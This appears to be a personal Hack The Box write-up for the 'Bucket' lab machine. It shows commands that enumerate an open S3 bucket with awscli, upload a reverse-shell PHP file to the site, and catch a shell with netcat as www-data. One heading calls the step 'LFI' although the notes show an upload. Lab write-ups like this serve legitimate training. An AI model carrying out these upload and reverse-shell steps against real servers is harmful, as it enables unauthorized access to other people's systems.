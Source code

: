 ![[Pasted image 20210506180005.png]]

### >>Found another host from viewing the source code of the page-

![[Pasted image 20210506180255.png]]


- ### Added s3.bucket.htb to our local host


![[Pasted image 20210506181119.png]]


### >> Installing Awscli on Linux-

```bash
root@napster:~/Documents/HTB/Bucket# apt install awscli
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following additional packages will be installed:
  python3-botocore
The following packages will be upgraded:
  awscli python3-botocore
2 upgraded, 0 newly installed, 0 to remove and 1960 not upgraded.
Need to get 4,951 kB of archives.
After this operation, 7,623 kB of additional disk space will be used.
Do you want to continue? [Y/n] Y
Get:1 http://ftp.harukasan.org/kali kali-rolling/main amd64 awscli all 1.19.1-1 [1,087 kB]
Get:2 http://ftp.harukasan.org/kali kali-rolling/main amd64 python3-botocore all 1.20.0+repack-1 [3,863 kB]                                                  
Fetched 4,951 kB in 10s (500 kB/s)                                                                                                                           
Reading changelogs... Done
<snip>
```

### >>Enumeration through Awscli-

```bash
aws s3 --endpoint-url http://s3.bucket.htb ls
Unable to locate credentials. You can configure credentials by running "aws configure".
```

- ### Need to configure aws after that we can run the above command-

```bash
root@napster:~/Documents/HTB/Bucket# aws s3 --endpoint-url http://s3.bucket.htb ls
2021-05-06 18:19:02 adserver
```

- ### Listing files on adserver-

```bash
root@napster:~/Documents/HTB/Bucket# aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
                           PRE images/
2021-05-06 18:27:04       5344 index.html
```

- Listing files inside images/ -
```bash
root@napster:~/Documents/HTB/Bucket# aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/images/
2021-05-06 18:29:02      37840 bug.jpg
2021-05-06 18:29:02      51485 cloud.png
2021-05-06 18:29:02      16486 malware.png
```

# >> Finding LFI -

- ### Copying reverse shell.php to the site -

```bash
root@napster:~/Documents/HTB/Bucket# aws s3 --endpoint-url http://s3.bucket.htb cp shell.php s3://adserver/
upload: ./shell.php to s3://adserver/shell.php                
root@napster:~/Documents/HTB/Bucket# aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/
                           PRE images/
2021-05-06 18:39:03       5344 index.html
2021-05-06 18:39:13       5494 shell.php

```


- ### Triggering the shell.php and getting a reverse shell-

![[Pasted image 20210506184327.png]]

```bash
root@napster:~/Documents/HTB/Bucket# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.162] from (UNKNOWN) [10.10.10.212] 53130
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:40:40 up  1:25,  0 users,  load average: 0.13, 0.09, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

